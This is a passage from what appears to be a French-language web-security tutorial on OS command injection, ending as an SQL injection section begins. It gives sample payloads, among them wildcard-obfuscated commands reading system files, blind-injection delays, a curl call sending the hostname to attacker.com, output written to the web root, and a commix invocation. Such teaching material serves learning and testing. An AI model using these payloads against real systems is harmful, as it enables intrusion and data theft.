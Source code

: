3. **Techniques avancées** :
   ```
   # Utilisation de caractères spéciaux
   ip=127.0.0.1;{id}
   
   # Utilisation de wildcards
   ip=127.0.0.1;/???/??t /???/p??s??
   ```

#### Injection aveugle

Lorsque le résultat de la commande n'est pas visible, utilisez ces techniques :

1. **Délai d'exécution** :
   ```
   # Si la commande est exécutée, un délai sera observé
   ip=127.0.0.1; sleep 10
   ```

2. **Requêtes sortantes** :
   ```
   # Vérifier si une requête arrive sur votre serveur
   ip=127.0.0.1; curl https://attacker.com/$(hostname)
   ```

3. **Redirection vers un fichier accessible** :
   ```
   # Écrire dans un fichier accessible via le web
   ip=127.0.0.1; id > /var/www/html/output.txt
   ```

#### Outils de détection et d'exploitation

- **commix** : Outil automatisé pour détecter et exploiter les injections de commandes
  ```bash
  python commix.py --url="http://example.com/vulnerable.php?ip=127.0.0.1"
  ```

- **Burp Suite Intruder** : Pour tester systématiquement différents payloads

**En clair, pour un débutant :**
L'injection de commandes, c'est comme si vous demandiez à un restaurant de vous livrer à une adresse, mais au lieu de donner juste l'adresse, vous ajoutez "et au fait, donnez aussi le contenu de votre coffre-fort au livreur". Le serveur exécute aveuglément la commande complète, y compris votre ajout malveillant. Les caractères comme `;`, `|` et `&&` sont comme des "et aussi" qui permettent d'enchaîner plusieurs commandes à la suite de celle prévue initialement.

### SQL Injection (basics)

L'injection SQL est une vulnérabilité qui permet à un attaquant de manipuler les requêtes SQL envoyées à la base de données, pouvant conduire à l'accès non autorisé aux données.

#### Fonctionnement

Cette vulnérabilité se produit lorsqu'une application construit des requêtes SQL en concaténant directement des entrées utilisateur non validées :
